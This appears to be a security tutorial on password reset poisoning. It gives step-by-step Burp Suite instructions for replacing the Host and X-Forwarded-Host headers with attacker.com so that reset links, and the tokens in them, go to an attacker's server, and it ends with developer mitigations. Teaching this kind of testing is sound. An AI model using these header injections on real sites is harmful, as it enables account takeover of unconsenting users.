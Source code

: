 ## What is Password Reset Poisoning?

When an application **builds password reset links based on user-controlled headers** like `Host` or `X-Forwarded-Host`, an attacker can **inject their own domain**, causing the reset link to be sent with a **malicious host**, leading to **account takeover**.



##  Step-by-Step Guide

###  Step 1: Go to Password Reset Page

* Visit the target site (e.g. `https://example.com/forgot-password`)
* Enter the **email address of your own test account** and submit the password reset form.



###  Step 2: Intercept the Request in Burp Suite

* Open **Burp Suite Proxy**.
* Make sure your browser is using Burp as the proxy.
* Intercept the **password reset request** — usually a **POST** request like:

  ```http
  POST /reset.php HTTP/1.1
  Host: example.com
  Content-Type: application/json

  {
    "email": "victim@example.com"
  }
  ```



###  Step 3: Modify Headers to Inject Malicious Host

* In the intercepted request, **change or add these headers**:

  ```http
  Host: attacker.com
  X-Forwarded-Host: attacker.com
  ```

  So now your request looks like:

  ```http
  POST /reset.php HTTP/1.1
  Host: attacker.com
  X-Forwarded-Host: attacker.com
  Content-Type: application/json

  {
    "email": "victim@example.com"
  }
  ```

>  The key idea: You're trying to **trick the backend** into building a password reset link like:

```
https://attacker.com/reset-password.php?token=XYZ
```

Instead of the legitimate domain.



### Step 4: Forward the Request

* Forward the modified request from Burp Suite to the server.



###  Step 5: Check the Password Reset Email

* Open the inbox of `victim@example.com`.
* Look at the **reset link** in the email.
* If it points to **`https://attacker.com`** instead of `https://example.com`, then:

>  **The application is vulnerable!**

This means an attacker can:

* Initiate a reset for a victim's email.
* Receive the reset link to **their own server**.
* Use the token to reset the victim's password → **Account Takeover**



##  How Should Developers Prevent This?

* **Never trust user-supplied headers** (`Host`, `X-Forwarded-Host`, etc.).
* Hardcode the domain when generating links (e.g., `https://example.com/reset-password?...`)
* Use a secure Referrer Policy and strict origin checks.
* If behind a proxy, validate `X-Forwarded-*` headers correctly and securely.
